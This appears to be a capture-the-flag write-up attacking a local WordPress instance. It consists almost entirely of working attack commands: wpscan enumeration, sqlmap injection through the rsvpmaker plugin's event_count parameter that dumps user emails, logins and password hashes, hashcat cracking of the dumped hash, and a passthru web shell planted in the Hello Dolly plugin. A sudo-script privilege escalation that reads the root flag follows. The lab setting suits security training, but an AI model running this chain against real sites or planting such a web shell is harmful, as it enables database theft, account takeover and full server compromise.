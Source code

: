 # Writeup

## wpscan

```
sudo docker run --net host -it --rm wpscanteam/wpscan --url http://localhost:8000/
```

```
[i] Plugin(s) Identified:

[+] rsvpmaker
 | Location: http://localhost:8000/wp-content/plugins/rsvpmaker/
 | Latest Version: 7.3.9 (up to date)
 | Last Updated: 2020-04-01T14:10:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://localhost:8000/wp-content/plugins/rsvpmaker/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://localhost:8000/wp-content/plugins/rsvpmaker/README.txt
```

Resources :
- https://wpscan.com/vulnerability/10371

## sqlmap

```
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T --dbs
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress --tables
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress -T wp_users --columns
sqlmap -u "http://localhost:8000/?action=signed_up&event_count=1" --dbms mysql -p event_count --technique T -D wordpress -T wp_users -C user_email,user_login,user_pass --dump
```

Resources :
- http://sqlmap.org/

## hashcat

```
docker pull dizcza/docker-hashcat:intel-cpu
echo '$P$BJkqcsKTDSa6O6YUu6dO9PJ5uX0Xrm0' > wp.hash
hashcat -a 0 -m 400 wp.hash hashcat/example.dict
hashcat -a 0 -m 400 wp.hash hashcat/example.dict --show
```

Resources :
- https://hashcat.net/wiki/doku.php?id=example_hashes

## RCE

Edit plugin Hello Dolly. Keep the comment with the plugin info.

```
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/
echo passthru($_GET['cmd']);
```

Visit : http://localhost:8000/wp-content/plugins/hello.php?cmd=cat+/flag.txt

## Privesc

```
sudo -l
ls -la /opt/update-wp
echo 'id;cat /root/flag.txt' >> /opt/update-wp
sudo /opt/update-wp
```

Visit : http://localhost:8000/wp-content/plugins/hello.php?cmd=sudo+-l;ls+-la+/opt/update-wp;echo+'id;cat+/root/flag.txt'+>>+/opt/update-wp;cat+/opt/update-wp;sudo+/opt/update-wp;
